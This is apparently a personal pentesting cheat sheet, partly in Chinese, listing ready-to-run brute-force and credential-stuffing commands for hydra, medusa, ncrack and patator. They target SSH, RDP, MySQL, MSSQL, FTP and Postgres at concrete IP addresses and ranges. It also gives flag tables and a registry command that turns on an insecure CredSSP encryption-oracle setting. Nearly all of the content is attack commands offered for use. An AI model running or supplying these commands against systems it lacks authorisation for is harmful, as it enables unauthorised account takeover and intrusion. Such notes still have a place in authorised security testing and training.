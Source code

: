 ## hydra

**ssh**

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

**mysql**

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
# mssql
hydra -l sa -P password.txt -f mssql://39.99.149.148:1433/
hydra -L usernames.txt –P ./password.txt <target-ip> mssql

# 爆破ssh
hydra -l serlon -P pass.txt 192.168.0.227 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

```

| param   | Description                                                                     |
| ------- | ------------------------------------------------------------------------------- |
| -f      | exit after the first found login/password pair (per host if -M)                 |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options                   |
| -e nsr  | "n" for null password, additional checks,                                       |
|         | "s" try login as pass                                                           |
|         | "r" try the reverse login as pass                                               |

# rdp

远程桌面 要求的函数不受支持

```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
```

## rdp/patator
```sh
# 图形界面使用
proxychains python3 patator.py rdp_login host=172.22.4.45 user=Adrian password=FILE0 0=/home/parallels/tool/rockyou.txt
```

## rdp/hydra

```sh
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1

hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra 192.168.31.22 rdp -L /usr/share/wordlists/dirbuster/password2.txt -P /usr/share/wordlists/dirbuster/password1.txt -V -F
```

## rdp/御剑 RDP 爆破工具/超级弱口令检查工具/fscan/

## rdp/ncrack 3389 rdp 爆破

```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt
```


# medusa
medusa 比 hydra快一些
```bash
# FTP
medusa -h 192.168.1.1 -u admin -P /top1000_password.txt -M ftp -e ns -t 10 -f -r 0 -O ./result_ftp.txt
medusa -M ftp -h 192.168.135.121 -u zc -p top1000.txt
# ssh
medusa -M ssh -h 192.168.75.141 -u flag4 -P top1000.txt -V
# mysql
medusa -h 192.168.137.133 -u root -P /wordlist.txt -M mysql
# postgres
medusa -H /ip.txt -u postgres -n 5432 -P /tmp/pass.txt -e ns -M postgres -T 255 -f -O /tmp/good.txt -r 0
```

| params      | desc                                        |
| ----------- | ------------------------------------------- |
| -n [NUM]    | 使用非默认端口                              |
| -e [n/s/ns] | N 意为空密码，S 意为密码与用户名相同        |
| -t [NUM]    | 设定线程数量                                |
| -f          | 在任何主机上找到第一个账号/密码后，停止破解 |
| -r [NUM]    | 重试间隔时间，默认为 3 秒                   |
| -V          | 显示版本                                    |
